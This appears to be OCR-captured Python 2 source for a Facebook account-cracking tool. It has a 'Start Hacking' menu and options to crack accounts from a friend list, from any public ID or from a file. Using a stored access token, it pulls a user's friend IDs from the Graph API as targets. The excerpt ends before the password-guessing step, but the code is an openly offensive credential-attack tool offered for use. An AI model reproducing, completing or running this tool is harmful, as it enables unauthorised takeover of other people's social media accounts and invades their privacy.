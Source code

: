 	print logo
	print 42*"\033[1;96m="
	print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m Name \033[1;91m: \033[1;92m"+nama+"\033[1;97m               "
	print "\033[1;96m[\033[1;97m✓\033[1;96m]\033[1;93m ID   \033[1;91m: \033[1;92m"+id+"\x1b[1;97m              "
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Start Hacking"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Exit            "
	pilih()


def pilih():
	unikers = raw_input("\n\033[1;97m >>> \033[1;97m")
	if unikers =="":
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih()
	elif unikers =="1":
		super()
	elif unikers =="0":
		jalan('Token Removed')
		os.system('rm -rf login.txt')
		keluar()
	else:
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih()


def super():
	global toket
	os.system('clear')
	try:
		toket=open('login.txt','r').read()
	except IOError:
		print"\033[1;96m[!] \x1b[1;91mToken invalid"
		os.system('rm -rf login.txt')
		time.sleep(1)
		login()
	os.system('clear')
	print logo
	print 42*"\033[1;96m="
	print "\x1b[1;96m[\x1b[1;92m1\x1b[1;96m]\x1b[1;93m Crack From Friend List"
	print "\x1b[1;96m[\x1b[1;92m2\x1b[1;96m]\x1b[1;93m Crack From Any Public ID"
	print "\x1b[1;96m[\x1b[1;92m3\x1b[1;96m]\x1b[1;93m Crack From File"
	print "\x1b[1;96m[\x1b[1;91m0\x1b[1;96m]\x1b[1;91m Back"
	pilih_super()

def pilih_super():
	peak = raw_input("\n\033[1;97m >>> \033[1;97m")
	if peak =="":
		print "\033[1;96m[!] \x1b[1;91mFill in correctly"
		pilih_super()
	elif peak =="1":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		jalan('\033[1;96m[✺] \033[1;93mGetting ID \033[1;97m...')
		r = requests.get("https://graph.facebook.com/me/friends?access_token="+toket)
		z = json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif peak =="2":
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		idt = raw_input("\033[1;96m[+] \033[1;93mEnter ID \033[1;91m: \033[1;97m")
